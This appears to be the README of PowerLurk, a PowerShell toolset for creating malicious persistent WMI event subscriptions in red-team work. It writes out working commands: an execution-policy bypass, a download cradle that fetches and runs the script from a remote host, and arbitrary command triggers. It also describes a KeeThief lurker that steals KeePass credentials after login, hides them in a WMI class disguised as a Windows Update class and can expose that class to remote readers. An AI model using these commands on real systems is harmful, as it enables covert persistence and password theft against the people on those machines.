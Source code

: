 # PowerLurk

PowerLurk is a PowerShell toolset for building malicious WMI Event Subsriptions. The goal is to make WMI events easier to fire off during a penetration test or red team engagement. Please see my post **Creeping on Users with WMI Events: Introducing PowerLurk** for more detailed information: https://pentestarmoury.com/2016/07/13/151/

To use PowerLurk, you must import the PowerLurk.ps1 module into your instance of PowerShell. This can be done a couple of ways:

Import locally

```PS> powershell.exe -NoP -Exec ByPass -C Import-Module c:\\temp\\PowerLurk.ps1```

Download Cradle

```PS> powershell.exe -NoP -C "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerLurk.ps1'); Get-WmiEvent"```

## Get-WmiEvent

By default, Get-WmiEvent queries WMI for all __FilterToConsumerBinding instances and associated __EventFilter, and __EventConsumer instances. 
Objects returned can be deleted by piping to Remove-WmiObject.

Return all active WMI event objects with the name 'RedTeamEvent'

```Get-WmiEvent -Name RedTeamEvent```

Twitter - @sw4mp_fox
Delete 'RedTeamEvent' WMI event objects

```Get-WmiEvent -Name RedTeamEvent | Remove-WmiObject```

## Register-MaliciousWmiEvent

This cmdlet is the core of PowerLurk. It takes a command, script, or scriptblock as the action and a precanned trigger then creates the WMI Filter, Consumer, and FilterToConsumerBinding required for a fully functional Permanent WMI Event Subscription. A number of WMI event triggers, or filters, are preconfigured. The trigger must be specified with the -Trigger parameter. There are three consumers to choose from, PermanentCommand, PermanentScript, and LocalScriptBLock. Example usage:

Write the notepad.exe process ID to C:\temp\log.txt whenever notepad.exe starts

```Register-MaliciousWmiEvent -EventName LogNotepad -PermanentCommand “cmd.exe /c echo %ProcessId% >> c:\\temp\\log.txt” -Trigger ProcessStart -ProcessName notepad.exe```

Cleanup Malicious WMI Event

```Get-WmiEvent -Name LogNotepad | Remove-WmiObject```

## Add-KeeThiefLurker

creates a permanent WMI event that will execute KeeThief (See @Harmj0y's KeeThief at https://github.com/adaptivethreat/KeeThief) 4 minutes after the 'keepass' process starts. This gives the target time to log into their KeePass database. 

The KeeThief logic and its output are either stored in a custom WMI namespace and class or regsitry values. If a custom 
WMI namespace and class are selected, you have the option to expose that namespace so that it can be read remotely 
by 'Everyone'. Registry path and value names are customizable using the associated switches; however, this is optional as
defaults are set. Example usage:

Add KeeThiefLurker event using WMI class storage 

```Add-KeeThiefLurker -EventName KeeThief -WMI```

Query custom WMI class

```Get-WmiObject -Namespace root\software win32_WindowsUpdate -List```

Extract KeeThief output from WMI class

```[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($(Get-WmiObject -Namespace root\software win32_WindowsUpdate -List).Properties['Output'].value))```

Cleanup KeeThiefLurker

```Remove-KeeThiefLurker -EventName KeeThief -WMI```
